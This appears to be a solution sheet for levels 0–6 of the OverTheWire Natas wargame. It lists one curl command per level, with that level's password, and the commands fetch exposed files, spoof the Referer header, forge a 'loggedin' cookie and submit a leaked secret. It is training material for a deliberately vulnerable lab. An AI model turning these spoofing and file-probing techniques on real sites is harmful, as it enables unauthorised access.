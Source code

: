 ### Solutions

curl --silent --user natas0:natas0 http://natas0.natas.labs.overthewire.org

curl --silent --user natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org

curl --silent --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt

curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

curl --silent --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/index.php

curl --silent --user natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq --cookie loggedin=1 http://natas5.natas.labs.overthewire.org

curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 --request POST --form 'submit=1' --form 'secret=FOEIUWGHFEEUHOFUOIU' http://natas6.natas.labs.overthewire.org
